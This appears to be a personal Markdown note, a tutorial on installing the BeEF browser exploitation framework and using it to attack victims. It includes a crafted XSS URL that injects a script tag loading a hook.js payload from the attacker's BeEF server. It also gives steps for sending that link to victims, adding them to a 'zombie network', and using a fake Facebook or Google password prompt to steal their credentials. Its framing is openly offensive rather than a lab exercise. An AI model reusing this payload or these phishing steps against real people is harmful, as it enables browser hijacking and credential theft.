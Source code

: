 ```yaml
---
title: BeEF
aliases:
  - BeEF
tags:
  - BeEF
  - XSS
  - Installation
description: BeEF is a security tool, allowing a penetration tester or system administrator additional attack vectors when assessing the posture of a target.
---
```

![[images/Pasted image 20241227174221.png]]

If you find an XXS, you can not only cause a victim to become part of your pseudo-botnet but you can also steal the contents of the copy memory , redirect them to links, turn on thier camera, and so much more using **BeEF Exploitation Framwork**.

# Installation
---
The first thing I am going to do is **install Ruby** on my Ubuntu 18.04 . To do this we want to run the following command:

```bash
sudo apt install ruby ruby-dev
```

The next step is to get the **BeEF source files. We will get these from git**. If you haven’t installed git, make sure to run the following command first:

```sh
sudo apt install git
```

Once git is available, we can **clone the git project** with the following command:

```sh
git clone https://github.com/beefproject/beef
```

This will download the source files for BeEF. **Next, move into the beef directory**:

```sh
cd beef
```

This is where the I started to **run into an issue**. The original beef instructions say to just run:

```sh
./install
```

However, when I did this, **I received a permission error.** To resolve that I ran:

```sh
sudo ./install
```

Once the **installation was successfully completed**, run this command to start **BeEF**:

```sh
./beef
```

![[images/Screenshot from 2024-12-27 19-36-39.png]]

# Attacking
---
Log into the **console UI** after the BeEF server hash started. As we see from the image above, the **UI URL is located at** http://127.0.0.1:3000/ui/panel. Open a browser and **go to that URL**.

![[images/Screenshot from 2024-12-27 19-49-27.png]]

**Login using the username and password beef:beef**

If we look back to the Terminal where we had started our BeEF server, we can see that there are two URL first UI URL 'http://172.26.114.224:3000/ui/panel' and second Hook URL 'http://172.26.114.224:3000/hook.js'. This is well obfuscated JavaScript payload that will control the victim user and will be injected into the victim brower's page. Once injected, their browser will connect back into your central server and the victim will be unaware.

Once we have located an XSS vulnerability on a page, we can use BeEF to exploit the end user. For Example, http://site.com/example.php?alert=, the alert variable takes any input and presents it to the end user. We can craft the URL to include the hook.js file. It will look something like: `http://site.com/example.php?alert=asda<script src=http://172.26.114.224:3000/hook.js></script>`.

Send this Crafted URL to victim and as soon as the victim will open the link in its browser, they will be part of your XSS zombie network.Going back to our UI panel, we should now see a victim has joined our server.


![[images/Screenshot from 2024-12-27 21-18-40.png]]

With an account hooked, there are many different modules within BeEF to exploit the end user. As from the image below, you can try to steal stored credentials, get host IP information, scan hosts within their network, and so much more.

![[images/Pasted image 20241227213127.png]]

One of my favorite attacks is called “petty theft” because of how simple it is. Drop down to Social Engineering folder and to Petty Theft. Configure how you want it, in this case we’ll use the Facebook example, and hit execute. Remember the IP for the custom logo field has to be your BeEF IP. This is so the victim can grab the image from your server.

![[images/Pasted image 20241227214106.png]]

After the attacker clicks Execute, on the victim’s system a Facebook password prompt will pop up. This is where you can get creative in targeting your users and use a popup that they would most likely enter. If you are looking to gain Google accounts, there is also a Google Phishing module. The purpose of this client side attack is that they are unaware that they are part of this zombie network and
the password prompt should seem like it is not out of the ordinary.

After the unsuspecting victim types in their password, go back to the UI to find your loot.

